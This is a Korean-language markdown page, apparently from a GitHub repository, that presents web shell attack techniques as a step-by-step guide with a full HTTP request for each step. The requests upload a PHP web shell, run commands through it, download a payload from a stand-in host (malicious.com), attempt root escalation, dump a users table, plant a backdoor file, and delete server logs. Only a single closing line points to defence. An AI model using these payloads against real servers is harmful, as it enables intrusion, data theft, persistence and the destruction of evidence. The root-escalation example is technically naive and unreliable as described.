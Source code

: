 # LoL 웹쉘 공격 기법 소개
웹 요청 본문을 통해 침투한 파일을 웹셸(Web Shell)로 변환하고, 이를 활용해 추가 악성 행위를 수행하는 구체적인 공격 기법은 다음과 같습니다:

---

### **1. 웹 요청 본문을 통한 파일 업로드**
- 공격자는 HTTP POST 요청을 통해 웹 서버의 특정 디렉터리(예: `/var/www/html/`)에 악성 스크립트를 업로드합니다.
- 예를 들어, PHP 기반 웹 서버를 대상으로 한 웹셸 업로드:
```http
POST /upload.php HTTP/1.1
Host: targetsite.com
Content-Type: multipart/form-data; boundary=---WebKitFormBoundary
Content-Length: 1234

---WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="webshell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
---WebKitFormBoundary--
```

- **결과:** 서버에 `webshell.php` 파일이 업로드되며, 이를 통해 원격 명령 실행이 가능해집니다.

---

### **2. 업로드된 웹셸 호출**
- 업로드된 웹셸을 HTTP GET 요청으로 호출하여 명령어를 실행합니다.
- 예제 요청:
```http
GET /webshell.php?cmd=ls HTTP/1.1
Host: targetsite.com
```
- **결과:** 서버 디렉터리 내 파일 목록이 반환됩니다.

---

### **3. 악성 코드 추가 다운로드 및 실행**
- 웹셸을 통해 원격 URL에서 악성 코드를 다운로드하고 실행합니다.
- 웹 요청 예제:
```http
GET /webshell.php?cmd=wget+http://malicious.com/payload.sh+-O+/tmp/payload.sh HTTP/1.1
Host: targetsite.com
```
- **결과:** `payload.sh` 파일이 다운로드되고, 이를 실행하여 시스템에 추가적인 악성 코드를 설치합니다.

---

### **4. 권한 상승**
- 업로드된 웹셸을 통해 서버의 권한 상승 취약점을 악용합니다.
- 예제:
```http
GET /webshell.php?cmd=python+-c+"import+os;os.setuid(0);os.system('/bin/bash')" HTTP/1.1
Host: targetsite.com
```
- **결과:** 루트 권한을 획득하여 서버 제어권을 장악합니다.

---

### **5. 데이터 탈취**
- 웹셸을 활용하여 데이터베이스 자격 증명을 추출하고, 데이터베이스를 직접 조회합니다.
- 예제:
```http
GET /webshell.php?cmd=mysql+-u+root+-psecret+-e+"SELECT+*+FROM+users;" HTTP/1.1
Host: targetsite.com
```
- **결과:** 데이터베이스에서 사용자 정보가 탈취됩니다.

---

### **6. 백도어 설치**
- 공격자는 지속적인 접근을 위해 백도어를 설치합니다.
- 예제:
```http
GET /webshell.php?cmd=echo+'<?php+system($_GET[cmd]);?>'+>+/var/www/html/backdoor.php HTTP/1.1
Host: targetsite.com
```
- **결과:** 새로운 웹셸 `backdoor.php`가 생성됩니다.

---

### **7. 분산 서비스 거부(DDoS) 공격 수행**
- 웹셸을 사용해 대상 서버를 봇넷 네트워크의 일부로 전환합니다.
- 예제:
```http
GET /webshell.php?cmd=perl+-e+'use+IO::Socket;...;+send_attack();' HTTP/1.1
Host: targetsite.com
```
- **결과:** 서버가 DDoS 공격에 사용됩니다.

---

### **8. 로그 삭제**
- 공격자가 자신의 흔적을 삭제합니다.
- 예제:
```http
GET /webshell.php?cmd=rm+-rf+/var/log/apache2/* HTTP/1.1
Host: targetsite.com
```
- **결과:** 서버 로그가 삭제되어 공격 추적이 어려워집니다.

---

이 기법들은 방어되지 않은 파일 업로드 기능, 잘못된 입력 검증, 그리고 웹 서버 취약점을 악용하여 수행됩니다. **적절한 보안 조치**를 통해 이러한 공격을 방지할 수 있습니다.
